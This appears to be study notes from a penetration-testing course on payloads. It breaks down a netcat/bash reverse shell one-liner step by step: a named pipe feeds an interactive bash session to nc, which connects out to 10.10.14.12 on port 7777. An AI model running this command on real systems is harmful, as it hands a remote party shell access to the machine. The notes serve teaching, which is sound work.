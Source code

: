# Introduction to Payloads

***

### <mark style="color:red;">One-Liners Examined</mark>

#### <mark style="color:green;">**Netcat/Bash Reverse Shell One-liner**</mark>

{% code fullWidth="true" %}
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
```
{% endcode %}

<mark style="color:orange;">**Remove /tmp/f**</mark>

{% code fullWidth="true" %}
```bash
rm -f /tmp/f; 
```
{% endcode %}

Removes the `/tmp/f` file if it exists, `-f` causes `rm` to ignore nonexistent files. The semi-colon (`;`) is used to execute the command sequentially.

<mark style="color:orange;">**Make A Named Pipe**</mark>

```bash
mkfifo /tmp/f; 
```

Makes a [FIFO named pipe file](https://man7.org/linux/man-pages/man7/fifo.7.html) at the location specified. In this case, /tmp/f is the FIFO named pipe file, the semi-colon (`;`) is used to execute the command sequentially.

<mark style="color:orange;">**Output Redirection**</mark>

```bash
cat /tmp/f | 
```

Concatenates the FIFO named pipe file /tmp/f, the pipe (`|`) connects the standard output of cat /tmp/f to the standard input of the command that comes after the pipe (`|`).

<mark style="color:orange;">**Set Shell Options**</mark>

```bash
/bin/bash -i 2>&1 | 
```

Specifies the command language interpreter using the `-i` option to ensure the shell is interactive. `2>&1` ensures the standard error data stream (`2`) `&` standard output data stream (`1`) are redirected to the command following the pipe (`|`).

<mark style="color:orange;">**Open a Connection with Netcat**</mark>

```bash
nc 10.10.14.12 7777 > /tmp/f  
```
